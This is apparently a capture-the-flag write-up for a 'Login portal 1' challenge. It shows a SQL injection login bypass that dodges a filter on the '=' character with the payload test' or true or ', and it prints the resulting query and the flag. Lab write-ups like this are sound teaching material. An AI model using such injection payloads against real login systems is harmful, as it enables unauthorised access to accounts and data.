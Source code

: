 # Login portal 1

## Solution

By submitting `test'` we receive the following error message:

```
Wrong username / password.
```

We then try `test' or '1'='1`:

```
Illegal characters detected.
```

After several trials we understand the `=` sign is detected as an illegal character. So we simply transform the above condition into `test' or true or '`

```
SELECT ... FROM ... WHERE username='test' or true or '' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|test' or true or '|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-4f885o1dal0q1huj6eaxuatcvn`